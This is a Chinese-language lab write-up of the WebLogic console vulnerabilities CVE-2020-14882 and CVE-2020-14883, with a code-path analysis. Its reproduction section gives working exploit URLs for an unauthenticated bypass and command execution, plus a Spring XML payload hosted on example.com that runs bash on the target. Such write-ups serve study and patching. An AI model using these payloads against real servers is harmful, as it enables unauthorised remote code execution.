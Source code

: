 # Weblogic 管理控制台未授权远程命令执行漏洞 (CVE-2020-14882，CVE-2020-14883)

## 漏洞详情

CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台。

CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。

使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。



## 影响版本

- Oracle WebLogic Server 版本10.3.6.0
- Oracle WebLogic Server 版本12.1.3.0
- Oracle WebLogic Server 版本12.2.1.3
- Oracle WebLogic Server 版本12.2.1.4
- Oracle WebLogic Server 版本14.1.1.0



## 环境搭建

```
cd weblogic/CVE-2018-2894
docker-compose up -d
```



## 漏洞复现

首先测试权限绕过漏洞，我们访问URL就可以未授权访问到管理后台

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

![image-20210414141613624](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210414141613624.png)

但是这个时候我们只是一个最低权限的用户，无法安装应用，所以也无法直接执行任意代码

此时需要利用到第二个漏洞CVE-2020-14883。这个漏洞的利用方式有两种：

- `com.tangosol.coherence.mvel2.sh.ShellSession`
- `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`

直接访问如下URL，即可利用`com.tangosol.coherence.mvel2.sh.ShellSession`执行命令，这里我们执行`touch /tmp/success1`命令

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

进入容器，可以发现`touch /tmp/success1`已成功执行：

![image-20210414142020099](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210414142020099.png)

这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在`com.tangosol.coherence.mvel2.sh.ShellSession`类。

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。

首先，我们需要构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上，如`http://example.com/rce.xml`：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```

![image-20210414142800627](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210414142800627.png)



## 漏洞分析

weblogic的console中，应用会对路径进行分析，看一下是否是访问资源文件的，所以只要路径中包含map中的值，consloe在处理请求的时候，就不要求登录态

**问题一，weblogic的console中，哪些资源文件的访问不需要登录**

这个逻辑的处理代码在`ServletSecurityManager.checkAccess`中，首先应用会对路径进行分析，看一下是否是访问资源文件的

![img](images/Weblogic%20%E7%AE%A1%E7%90%86%E6%8E%A7%E5%88%B6%E5%8F%B0%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20(CVE-2020-14882%EF%BC%8CCVE-2020-14883).assets/t01cabb76ea60314c07.png)

跟进`this.webAppSecurity.getConstraint`直至`StandardURLMapping.getExactOrPathMatch`，在这里会去查看访问的url是否在资源文件的map中，这里无需多做分析，基于路径的资源文件名单自然是以包含作为匹配的依据，所以只要路径中包含map中的值，consloe在处理请求的时候，就不要求登录态

具体的权限检查调用逻辑如下，首先在`ChainedSecurityModule.checkAccess`中会检测路径是否包含登录接口（j_security_check）

![img](images/Weblogic%20%E7%AE%A1%E7%90%86%E6%8E%A7%E5%88%B6%E5%8F%B0%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20(CVE-2020-14882%EF%BC%8CCVE-2020-14883).assets/t0189ba2457e511f7b8.png)

如果不包含，则进入`CertSecurityModule.checkUserPerm`，在这个函数中会检测配置常量`protectResourceIfUnspecifiedConstraint`的值（默认为false），如果是false就会进入`WebAppSecurityWLS.hasPermission`，查看是否有这个文件的访问权限，当然，资源文件的访问权限自然是有的

![img](images/Weblogic%20%E7%AE%A1%E7%90%86%E6%8E%A7%E5%88%B6%E5%8F%B0%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20(CVE-2020-14882%EF%BC%8CCVE-2020-14883).assets/t01ceaf371852843d6e.png)

于是应用就判断这条请求是具有权限的，checkAccess返回true，进入接下来的调用。

**接下来就是问题二，weblogic究竟在哪个位置进行了二次url编码**

一次url编码肯定是正常的 ，这是每个中间件都会做的事情，那我们顺着这条调用栈继续往下跟进，这段代码位于`UIServletInternal.getTree`处，在这里应用对已经进行了一次url编码的URI进行了第二次url编码

![img](images/Weblogic%20%E7%AE%A1%E7%90%86%E6%8E%A7%E5%88%B6%E5%8F%B0%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20(CVE-2020-14882%EF%BC%8CCVE-2020-14883).assets/t013329fe717c2d0328.png)

由于在后续的一系列操作中weblogic并没有在对路径穿越进行防范，从而造成了CVE-2020-14882漏洞，即后管权限绕过。

**接下来就可以进入第三个问题了，命令执行的原因。**

先从漏洞触发的入口类进行分析，`BreadcrumbBacking.init`类在处理后管请求的时候会去看一下提交的参数中是否有handle参数

![img](images/Weblogic%20%E7%AE%A1%E7%90%86%E6%8E%A7%E5%88%B6%E5%8F%B0%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20(CVE-2020-14882%EF%BC%8CCVE-2020-14883).assets/t01f9afac8db7cb147b.png)

具体的操作逻辑在findFirstHandle中

![img](images/Weblogic%20%E7%AE%A1%E7%90%86%E6%8E%A7%E5%88%B6%E5%8F%B0%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20(CVE-2020-14882%EF%BC%8CCVE-2020-14883).assets/t0110226f4ac53feb7f.png)

如果存在handle参数，就会把它的值传给`HandleFactory.getHandle`函数，而在这个函数中，会将形如aaa.bbb.class(“ccc”)的handleStr分解为两块，aaa.bbb.class作为被实例化的类，ccc作为参数，然后将ccc传入aaa.bbb.class的构造函数，并进行调用。

接下来就是一个gadgets的寻找问题了，什么类的构造函数调用后会造成rce的效果，目前公开的poc是coherence.jar中的类ShellSession，本文也就去分析一下这一条gadgets，看一下调用栈

![img](images/Weblogic%20%E7%AE%A1%E7%90%86%E6%8E%A7%E5%88%B6%E5%8F%B0%E6%9C%AA%E6%8E%88%E6%9D%83%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20(CVE-2020-14882%EF%BC%8CCVE-2020-14883).assets/t0175789f1602822694.png)

ShellSession类会把传入构造函数的值交给`MVELInterpretedRuntime.parse`，而`MVELInterpretedRuntime`会通过反射去执行java代码，从而造成了RCE。

这里可以看到`MVELInterpretedRuntime`是一个具有代码执行功能的类，在后续的漏洞挖掘中这个类说不定会再次登场。

参考：https://www.anquanke.com/post/id/221835?display=mobile



## 防御与修复

及时下载官方的补丁程序






